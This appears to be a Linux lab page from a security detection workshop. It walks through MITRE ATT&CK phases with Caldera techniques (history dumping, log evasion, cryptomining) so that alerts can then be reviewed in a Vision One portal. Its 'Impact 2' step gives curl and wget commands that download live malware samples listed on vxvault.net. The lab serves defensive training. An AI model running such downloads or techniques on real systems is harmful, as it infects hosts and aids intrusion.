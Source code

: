 ```yaml
---
title: "Linux"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```

## Linux - Detection Mode
---

<b>Before you start this lab, make sure the C1WS Policy attached to the Linux Instance is the "demo > visionone > detection mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we knew the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="926KXvQiQ-0" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "Weak executable files (T1574.010) - Locate and infect files with weak but executable perms". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="NOQU4tKmqiQ" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Avoid logs (T1070.003) - Stop terminal from logging history". In this way, the instructions you are executing will not be logged by the OS, making hard to the SOC Team to investigate and track the malicious instructions executed on this attack.

{{< youtube id="pFkTQmuWyGw" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Dump history (T1552.003) - Get contents of bash history". You may find sensitive information with this technique.

{{< youtube id="2KH_YkmH_6A" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="CbS21y0QvD4" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="AREqI9QRxsQ" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="zfGupkq1HVw" >}}

#### Impact 2
Using Mitre Caldera, you can deploy the following manual instruction. It will make the affected computer to download 0-day malwares from live repositories in the internet.

        curl http://vxvault.net/URL_List.php > urls.txt
        wget -i urls.txt --tries=1

{{< youtube id="ldIEFNi7EiE" >}}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.